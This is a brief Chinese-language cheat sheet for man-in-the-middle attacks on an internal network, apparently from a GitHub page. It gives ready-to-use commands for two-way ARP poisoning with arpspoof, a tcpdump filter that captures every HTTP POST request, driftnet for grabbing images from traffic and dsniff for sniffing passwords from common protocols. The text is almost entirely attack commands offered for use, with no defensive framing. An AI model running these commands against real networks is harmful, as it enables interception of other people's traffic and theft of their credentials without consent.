# 内网中间人

#### 1. arp 中间人

* arp 毒化

```
arpspoof -i [Interface] -t [Target_ip] [Gateway_ip]
arpspoof -i [Interface] -t [Gateway_ip] [Target_ip]
```

* dump 所有 HTTP POST 请求

```
tcpdump -s 0 -A 'tcp dst port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)'
```

* 嗅探 HTTP 中的图片

```
driftnet -i [Interface]
```

* 嗅探常见协议密码

```
dsniff -i [Interface]
```



